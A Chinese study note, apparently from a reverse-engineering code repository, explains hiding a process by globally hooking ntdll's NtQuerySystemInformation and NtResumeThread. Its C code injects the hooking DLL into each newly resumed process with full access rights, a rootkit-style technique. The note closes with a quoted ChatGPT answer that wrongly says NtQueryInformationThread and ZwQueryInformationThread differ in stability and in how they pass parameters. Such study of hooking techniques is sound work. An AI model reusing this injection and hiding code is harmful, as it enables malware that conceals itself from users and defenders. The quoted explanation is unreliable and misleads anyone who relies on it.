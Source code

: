 # 记事本-NtResumeThread() 之 进程隐藏

[mycode/Re/API_HOOK/记事本-NtQuerySystemInformation_进程隐藏/全局钩子-NtResumeThread at 53aeb0d0ae0d86f03fc8393575912ded00dfafeb · redqx/mycode](https://github.com/redqx/mycode/tree/53aeb0d0ae0d86f03fc8393575912ded00dfafeb/Re/API_HOOK/记事本-NtQuerySystemInformation_进程隐藏/全局钩子-NtResumeThread)

之前那个进程隐藏用的是createProcess和NtQuerySystemInformation() 钩取explorer.exe

也提到过全局API钩取的概念,也提到过NtResumeThread()

这一次就简单实现一下,他的原理和之前是一样的,只不过它更加底层罢了

但是,也还是简答的说一下他的相关实现

其实,也没干什么

说一下dllmain函数

```jsx
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {

    case DLL_PROCESS_ATTACH:
        hook_by_code(szNtdll, szNtQuerySystemInformatio, g_OldAPI_1,my_NtQuerySystemInformation);
        hook_by_code(szNtdll, szNtResumeThread, g_OldAPI_2, my_NtResumeThread);

        break;
    case DLL_PROCESS_DETACH:
        unhook_by_code(szNtdll, szNtQuerySystemInformatio, g_OldAPI_1);
        unhook_by_code(szNtdll, szNtResumeThread, g_OldAPI_2);
  
        break;
    }
    return TRUE;
}
```

多了一个hook和unhook

具体的函数,看上去比较复杂

但是也还是没啥东西的

```c
NTSTATUS WINAPI my_NtResumeThread(HANDLE ThreadHandle, PULONG SuspendCount)
{
    NTSTATUS status = 0, statusThread;
    FARPROC pFunc = NULL, pFuncThread = NULL;
    DWORD dwPID = 0;
    static DWORD dwPrevPID = 0;
    THREAD_BASIC_INFORMATION tbi;
    HMODULE hMod = NULL;
    CHAR szModPath[MAX_PATH] = { 0, };
    HANDLE hProcess;

    hMod = GetModuleHandleA(szNtdll);
    if (hMod == NULL)
    {
        DebugLog("NewNtResumeThread() : GetModuleHandle() failed!!! [%d]\n", GetLastError());
        return NULL;
    }

    // call ntdll!ZwQueryInformationThread()
    pFuncThread = GetProcAddress(hMod, "ZwQueryInformationThread");//注意这个函数是Nt版本,同时他的名字是ZwQueryInformationThread,不是NtQuerySystemInformation
    DebugLog("Zw %p\n", pFuncThread);
    if (pFuncThread == NULL)
    {
        DebugLog("NewNtResumeThread() : GetProcAddress() failed!!! [%d]\n", GetLastError());
        return NULL;
    }

    statusThread = ((PFZWQUERYINFORMATIONTHREAD)pFuncThread)(ThreadHandle, 0, &tbi, sizeof(tbi), NULL);
    if (statusThread != 0)
    {
        DebugLog("NewNtResumeThread() : pFuncThread() failed!!! [%d]\n", GetLastError());
        return NULL;
    }

    dwPID = (DWORD)tbi.ClientId.UniqueProcess;//获取主线程dwPID

    //打开进程病注入
    if ((dwPID != GetCurrentProcessId()) && (dwPID != dwPrevPID))
    {
        DebugLog("NewNtResumeThread() => call InjectDll()\n");

        dwPrevPID = dwPID;

        // change privilege 如果权限已经够了,就不需要提权了
        //if (!SetPrivilege(SE_DEBUG_NAME, TRUE))
        //DebugLog("NewNtResumeThread() : SetPrivilege() failed!!!\n");

        // get injection dll path
        GetModuleFileNameA(GetModuleHandleA(STR_MODULE_NAME), szModPath, MAX_PATH);
        if (!(hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID)))
        {
            DebugLog("OpenProcess failed");
            return FALSE;
        }
        if (!InjectDll_hook(hProcess, szModPath))
        {
            DebugLog("NewNtResumeThread() : InjectDll(%d) failed!!!\n", dwPID);
        }
    }

    // call ntdll!NtResumeThread() 脱钩
    if (!unhook_by_code(szNtdll, szNtResumeThread, g_OldAPI_2))
    {
        DebugLog("NewNtResumeThread() : unhook_by_code() failed!!!\n");
        return NULL;
    }

    pFunc = GetProcAddress(hMod, "NtResumeThread");
    if (pFunc == NULL)
    {
        DebugLog("NewNtResumeThread() : GetProcAddress() failed!!! [%d]\n",
            GetLastError());
        goto __NTRESUMETHREAD_END;
    }

    status = ((PFNtResumeThread)pFunc)(ThreadHandle, SuspendCount);//正常调用
    if (status != 0)
    {
        DebugLog("NewNtResumeThread() : pFunc() failed!!! [%d]\n", GetLastError());
        goto __NTRESUMETHREAD_END;
    }

__NTRESUMETHREAD_END:

    if (!hook_by_code(szNtdll, szNtResumeThread, g_OldAPI_2, (PROC)my_NtResumeThread))//挂钩
    {
        DebugLog("NewNtResumeThread() : hook_by_code() failed!!!\n");
    }

    DebugLog("NewNtResumeThread() : end!!!\n");

    return status;
}
```

首先是根据 `NTSTATUS WINAPI NtResumeThread(HANDLE ThreadHandle, PULONG SuspendCount)` 

的`HANDLE ThreadHandle` 来获取主线程所在进程的信息,然后对它注入

然后对 `NtResumeThread` 脱钩,然后调用它,然后挂钩

其中有个小小的疑惑:

他是如何成功调用 "ZwQueryInformationThread"的

于是问了chatgpt

事实上，**`NtQueryInformationThread`** 和 **`ZwQueryInformationThread`** 两者都是系统调用函数，并且它们都是可以在用户层调用的。这两个函数都用于在用户空间和内核空间之间进行通信，以获取线程信息。

**`NtQueryInformationThread`** 和 **`ZwQueryInformationThread`** 函数的区别在于它们的调用方式和参数传递方式，具体如下：

1. **调用方式**:
    - **`NtQueryInformationThread`**: 是用于调用内核模式下的系统调用的函数。在用户层，可以通过在 **`ntdll.dll`** 动态链接库中找到 **`NtQueryInformationThread`** 函数的地址，并通过函数指针或其他技术来调用它。由于这个函数并不是官方公开的API，因此调用它可能不稳定且存在潜在的兼容性问题。
    - **`ZwQueryInformationThread`**: 也是用于调用内核模式下的系统调用的函数。在用户层，可以通过调用 **`ntdll.dll`** 中的 **`ZwQueryInformationThread`** 函数来触发系统调用。这是官方提供的、稳定的系统调用接口。
2. **参数传递**:
    - **`NtQueryInformationThread`**: 参数传递是通过将参数放入通用寄存器中进行的，如 **`RAX`**, **`RCX`**, 等，然后通过软中断（例如 **`int 0x2E`**）来触发系统调用。
    - **`ZwQueryInformationThread`**: 参数传递是通过函数的传统方式，即在用户模式下使用栈来传递参数，并使用 **`syscall`** 指令来触发系统调用。

综上所述，你可以在用户层调用 **`ZwQueryInformationThread`** 函数，它是一个稳定且受支持的方法。虽然你也可以在用户层调用 **`NtQueryInformationThread`**，但不推荐这样做，因为它是一个未公开的API，可能在不同的Windows版本中发生变化，并且存在潜在的稳定性和兼容性问题